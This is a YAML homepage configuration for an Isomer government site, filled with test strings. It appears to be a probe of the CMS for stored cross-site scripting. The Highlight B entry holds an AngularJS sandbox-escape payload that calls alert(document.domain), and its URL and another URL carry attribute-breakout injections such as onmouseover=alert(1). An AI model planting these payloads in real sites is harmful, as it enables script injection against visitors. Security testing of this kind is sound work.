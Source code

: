```yaml
---
layout: homepage
title: "tttttttttttest: fff3333"
description: An Isomer site of the Singapore Government
image: /images/isomer-logo.svg
permalink: /
notification: ffffff<b>ffff</b>
sections:
  - hero:
      title: Hero title
      subtitle: Hero subtitle
      background: /images/hero-banner.png
      button: Contact Us
      url: /contact-us/
      key_highlights:
        - abcdef: "abcd\n\r\n\rtesttest"
          abcd: abcd
          title: Highlight A
          description:
            te<embed/>st:
              - test
          url: https://google.com/ttt"'>testframesetfffffewfewf213
        - title: Highlight B
          description: <script
            src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.8.3/angular.js"></script>
            <img data-ng-app=""
            data-ng-on-error="$event.target.ownerDocument.defaultView.alert($event.target.ownerDocument.defaultView.document.domain)"
            src="x">
          url: https://test.com/" onmouseover=alert(1) >newAttribute
        - title: Page A
          description: Page A is important too
          url: /privacy/
  - infobar:
      title: Infobar title
      subtitle: Subtitle
      description: About a sentence worth of description here
      button: Button text
      url: /faq/
  - resources:
      title: Resourcesffff
      subtitle: fffff
      id: resources
      button: ffff
---
```

